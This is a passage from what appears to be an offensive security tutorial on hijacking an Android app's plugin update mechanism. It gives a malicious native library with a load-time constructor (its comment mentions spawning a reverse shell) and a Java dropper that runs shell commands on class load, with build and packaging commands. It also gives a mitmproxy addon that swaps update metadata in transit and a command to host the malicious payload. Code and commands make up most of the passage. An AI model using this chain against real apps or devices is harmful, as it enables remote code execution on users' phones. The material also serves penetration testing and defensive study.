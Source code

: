 ```
// libscan_x64.so – constructor runs as soon as the library is loaded
__attribute__((constructor))
void init(void){
    __android_log_print(ANDROID_LOG_INFO, "PWNED", "Exploit loaded! uid=%d", getuid());
    // spawn reverse shell, drop file, etc.
}
```
```
```bash
$ aarch64-linux-android-gcc -shared -fPIC payload.c -o libscan_x64.so
$ zip -r PWNED.zip libscan_x64.so assets/ meta.txt
```
```
2. Update the JSON metadata so that `"FileName" : "PWNED.zip"` and `"DownloadURL"` points to your HTTP server.
3. Re‑encrypt + Base64‑encode the modified JSON and copy it back inside the intercepted XML.

### 3.2 Dex-based plugin path (DexClassLoader)

Some apps download a JAR/APK and load code via `DexClassLoader`. Build a malicious DEX that triggers on load:

```java
// src/pwn/Dropper.java
package pwn;
public class Dropper {
    static { // runs on class load
        try {
            Runtime.getRuntime().exec("sh -c 'id > /data/data/<pkg>/files/pwned' ");
        } catch (Throwable t) {}
    }
}
```
```
```bash
# Compile and package to a DEX jar
javac -source 1.8 -target 1.8 -d out/ src/pwn/Dropper.java
jar cf dropper.jar -C out/ .
d8 --output outdex/ dropper.jar
cd outdex && zip -r plugin.jar classes.dex  # the updater will fetch this
```
```
If the target calls `Class.forName("pwn.Dropper")` your static initializer executes; otherwise, reflectively enumerate loaded classes with Frida and call an exported method.

---
## 4. Deliver the Payload with mitmproxy

`addon.py` example that silently swaps the original metadata:

```python
from mitmproxy import http
MOD_XML = open("fake_metadata.xml", "rb").read()

def request(flow: http.HTTPFlow):
    if b"/UpgradeService.asmx/GetUpdateListEx" in flow.request.path:
        flow.response = http.Response.make(
            200,
            MOD_XML,
            {"Content-Type": "text/xml"}
        )
```
```
Run a simple web server to host the malicious ZIP/JAR:
```bash
python3 -m http.server 8000 --directory ./payloads
```